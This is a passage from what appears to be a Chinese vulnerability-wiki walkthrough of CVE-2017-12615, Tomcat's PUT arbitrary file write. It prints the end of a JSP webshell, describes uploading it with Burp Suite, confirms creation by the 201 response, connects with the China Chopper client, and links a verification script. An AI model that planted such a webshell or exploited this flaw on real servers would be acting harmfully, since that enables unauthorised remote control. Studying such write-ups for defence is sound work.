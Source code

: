                 OO(z1, sb);  
           } else if (Z.equals("P")) {  
               PP(z1, sb);  
           } else if (Z.equals("Q")) {  
            QQ(cs, z1, z2, sb,z2.indexOf("-to:")!=-1?z2.substring(z2.indexOf("-to:")+4,z2.length()):s.replaceAll("\\\\", "/")+"images/");  
         }  
        } catch (Exception e) {  
     sb.append("ERROR" + ":// " + e.toString());  
      }  
    sb.append("|" + "<-");  
    out.print(sb.toString());  
    }  
    %>

我们还是利用burpsuite发送我们构造的payload：

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2017-12615)TomcatPUT方法任意文件写入漏洞/media/rId37.png)

我们可以看到响应码为201，说明成功创建，我们用菜刀连接看一下：

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2017-12615)TomcatPUT方法任意文件写入漏洞/media/rId38.png)

### 验证脚本

> <https://github.com/ianxtianxt/CVE-2017-12615>
